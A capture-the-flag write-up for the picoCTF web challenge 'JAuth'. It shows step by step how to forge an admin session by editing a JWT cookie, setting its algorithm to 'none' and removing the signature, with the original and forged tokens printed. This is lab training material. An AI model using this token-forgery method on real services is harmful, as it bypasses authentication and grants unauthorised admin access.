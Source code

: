 # JAuth

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 300
Tags: picoGym Exclusive, Web Exploitation
Author: GEOFFREY NJOGU

Description:
Most web application developers use third party components without testing their security. 

Some of the past affected companies are:
 * Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
 * Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
 * VerticalScope (internet media company) - outdated version of vBulletin forum software used

Can you identify the components and exploit the vulnerable one?
The website is running here. Can you become an admin?

You can login as test with the password Test123! to get started.

Hints:
1. Use the web browser tools to check out the JWT cookie.
2. The JWT should always have two (2) . separators.
```
Challenge link: [https://play.picoctf.org/practice/challenge/236](https://play.picoctf.org/practice/challenge/236)

## Solution

### Connect to the website

Browse to the web site and login with `test:Test123!`

Next use your browsers DevTools (press F12) and select the Application tab. Then select the `token` cookie.

![The Token Cookie](The_Token_Cookie_in_DevTools.png)

Copy the cookie which should look like this
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjkwMjIzODc4MjA1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMTQuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjkwMjIzODc4fQ.XbdYap8wn4MDxo8PiK0XYjRv2hE-UHrSa8xlLmTGbEo
```

This is a Java Web Token (JWT) and it consists of 3 parts separated by dots:
 * Header
 * Payload
 * Signature

### Decode the JWT token

Decode the [JSON Web Token (JWT)](https://en.wikipedia.org/wiki/JSON_Web_Token) on an online service such as [Token.Dev](https://token.dev/). Replace the dummy/demo JWT with your data.

The data is base64-decoded and you can see that the header contains
```
{
  "typ": "JWT",
  "alg": "HS256"
}
```

And the payload contains
```
{
  "auth": 1690223878205,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36",
  "role": "user",
  "iat": 1690223878
}
```

The `auth` and `iat` fields are timestamps and will be different in your case.
Note that the `role` field says "user".

### Create a new JWT token

Instead of role `user` we want to be `admin`, so change this field
```
{
  "auth": 1690223878205,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36",
  "role": "admin",
  "iat": 1690223878
}
```

But now we have a problem. The signature isn't valid anymore.  
However, we can bypass this by changing the algorithm to `none`. This disables/removes the signature.
```
{
  "typ": "JWT",
  "alg": "none"
}
```

Copy the new JWT and remember the hint. A JWT should always have two periods and our new JWT only have one.  
So add an additional period at the end.
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjkwMjIzODc4MjA1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMTQuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY5MDIyMzg3OH0.
```

### Use the new JWT token to get the flag

Go back to the browser and replace the `token` cookie with the new one. Then reload the page (press F5).  
You should now see the following message with the flag.
```
Hello, admin! You have logged in as admin!
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Wikipedia - JSON Web Token](https://en.wikipedia.org/wiki/JSON_Web_Token)
